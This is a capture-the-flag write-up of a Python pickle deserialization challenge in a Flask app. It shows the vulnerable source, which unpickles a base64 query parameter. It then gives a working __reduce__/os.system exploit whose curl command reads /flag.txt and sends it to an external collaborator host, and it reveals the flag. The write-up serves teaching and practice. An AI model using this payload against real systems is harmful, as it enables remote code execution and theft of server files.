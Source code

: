 ```yaml
---
title: 'Wizer CTF - Pickle Deserialization RCE'
description: 'Pickle Deserilization RCE CTF writeup from Wizer CTF.'
pubDate: 'July 2 2024'
heroImage: '/PythonPickleRCE.jpg'
---
```


Wizer recently hosted a 6-hour Blitz CTF consisting of 6 challenges to be solved in 6 hours. These challenges varied in difficulty, as measured by hot peppers ranging from 1-5. This challenge, titled "Profile page" scored 4/5 peppers.

For this challenge, we are given a URL and the Python source code of the application behind it. It is a small application written in Python using Flask and Pickle. As soon as I saw it was using Pickle, I already knew it was going to be an interesting deserialization challenge!

The challenge on the CTF dashboard can be seen here:
![Challenge from CTF dashboard](/src/assets/WizerPickleRCE/Chall4.jpg)

## Solution

The source code of the app is given:
```py
from flask import Flask, request, render_template
import pickle
import base64

app = Flask(__name__, template_folder='templates')
real_flag = ''
with open('/flag.txt') as flag_file:
    real_flag = flag_file.read().strip()

class Profile:
    def __init__(self, username, email, bio):
        self.username = username
        self.email = email
        self.bio = bio

@app.route('/profile', methods=['GET', 'POST'])
def profile():
    if request.method == 'POST':
        username = request.form.get('username')
        email = request.form.get('email')
        bio = request.form.get('bio')

        if username and email and bio:
            profile = Profile(username, email, bio)
            dumped = base64.b64encode(pickle.dumps(profile)).decode()
            return render_template('profile.html', profile=profile, dumped=dumped)    

    load_object = request.args.get('load_object')
    if load_object:
        try:
            profile = pickle.loads(base64.b64decode(load_object))
            return render_template('profile.html', profile=profile, dumped=load_object)
        except pickle.UnpicklingError as e:
            return f"Error loading profile: {str(e)}", 400

    return render_template('input.html')

@app.route('/submit_flag/<flag>', methods=['GET'])
def flag(flag):
    return real_flag if flag == real_flag else 'Not correct!'

if __name__ == '__main__':
    app.run(debug=True)
```

As we can see, there is not a lot of functionality on the site other than on the ``/profile`` endpoint. Reading into the code, we can see that if we supply a username, email, and bio, it will use that to create a ``Profile`` object using Pickle and our data.
Reading a bit further, we can see that we also have the option to load a ``Profile`` object using the ``load_object`` parameter. This is very interesting to us because it gives us a way to give ``pickle.loads()`` data that we fully control.

Reading up on the [Pickle documentation](https://docs.python.org/3/library/pickle.html) it says the following:

> The pickle module **is not secure**. Only unpickle data you trust.<br>
> It is possible to construct malicious pickle data which will **execute arbitrary code during unpickling**. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

So our goal here is to create an object that gives us code execution. Reading from the [documentation](https://docs.python.org/3/library/pickle.html#pickle.loads) again, it says the following regarding ``pickle.loads()``:
> Return the reconstituted object hierarchy of the pickled representation *data* of an object.

Our goal now is to create an object that, when reconstituted, runs commands on the server.
For this, we will need to choose our command and create a pickled object with our payload. Since we just need the flag for this challenge, I'll just be using a simple Curl payload:
```bash
curl http://9dnou0awv3b99xsbgqre8kwl5cb3ztni.oastify.com/$(cat /flag.txt | base64 -w 0)
```

This will send a request to my BurpSuite Collaborator listener with the flag in the URL, but in theory, you could set up a reverse shell to get a stable connection and actually look for the flag. We do, however, know that the flag is located at ``/flag.txt``, so that won't be needed here.


So, let us create a Python object and give it our payload:
```python
import pickle
import base64
import os
import requests

class RCE:
    def __reduce__(self):
        cmd = ('curl http://9dnou0awv3b99xsbgqre8kwl5cb3ztni.oastify.com/$(cat /flag.txt | base64 -w 0)')
        return os.system, (cmd,)

pickled = pickle.dumps(RCE())
payload = base64.b64encode(pickled).decode()
print(payload)

req = requests.get(f'https://dsw3qg.wizer-ctf.com/profile?load_object={payload}')
print(req.status_code)
```

> It is important that you run this script from an OS that matches the target OS. In this case, the target is running Linux, so make sure to run it on Linux. WSL also works, but Windows most likely **will not work**.

Here we create a custom object named ``RCE`` (the name does not matter), and we set the ``__reduce__`` method to return our command using ``os.system``. This command will then be run when the server tries to load our custom object.
Once it is created, we then base64 encode it, print it (just for debugging if anything goes wrong), and send it to the server. If everything goes well, it will return ``200``, and we will see a request in BurpSuite Collaborator:
![Flag request in Burp](/src/assets/WizerPickleRCE/Req.png)

Here we see that we have received the request! Now all there is left to do is just decode it from Base64 and send it to the flag server to mark it as solved!
We can simply decode it using our CLI:
![Base64 decoding flag](/src/assets/WizerPickleRCE/Flag.png)

And there we have the flag!<br>
``WIZER{'PICKL1NG_1S_DANGEROUS'}``

To solve the challenge, all we have to do is send a request to the following URL:<br>
```
https://dsw3qg.wizer-ctf.com/submit_flag/WIZER{'PICKL1NG_1S_DANGEROUS'}
```